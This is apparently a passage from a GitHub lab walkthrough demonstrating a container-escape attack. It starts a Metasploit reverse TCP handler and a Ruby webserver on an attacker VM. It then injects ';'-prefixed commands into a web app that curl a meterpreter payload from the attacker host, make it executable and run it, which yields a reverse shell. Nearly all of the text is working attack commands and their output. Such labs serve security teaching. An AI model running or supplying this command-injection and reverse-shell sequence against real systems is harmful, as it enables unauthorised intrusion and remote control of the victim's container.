 ```bash
root@lunalectric-attacker-vm-ua3k:~# cd /root/container-escape/

root@attacker:~/container-escape# ./msfconsole1
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/meterpreter_reverse_tcp
lhost => 0.0.0.0
lport => 4242
[*] Started reverse TCP handler on 0.0.0.0:4242
```

### Start Ruby webserver

In the third terminal, start webserver with Ruby:

```bash
user@attacker:~$ sudo -i

root@lunalectric-attacker-vm-ua3k:~# cd /root/container-escape/

root@attacker:~/container-escape# ./start_ruby_webserver
[2022-08-15 18:28:35] INFO  WEBrick 1.4.2
[2022-08-15 18:28:35] INFO  ruby 2.5.1 (2018-03-29) [x86_64-linux-gnu]
[2022-08-15 18:28:35] INFO  WEBrick::HTTPServer#start: pid=3850 port=8001
```

### Find out the attacker machines public IP:

```bash
root@lunalectric-attacker-vm-3v0c:~# cat container-escape/pub-ip
34.70.139.37
```

### Escape time

In the webapp (browser) do the first attack to gain access to the container.

```bash
;curl -vk http://<attacker_vm_public_ip>:8001/met-container -o /tmp/met
```

Change the permissions to make the script executable

```bash
;chmod 777 /tmp/met
```

Execute the script

```bash
;/tmp/met
```

Now you have a reverse meterpreter session from the container, to get a shell type `shell`

```bash
meterpreter > shell
```
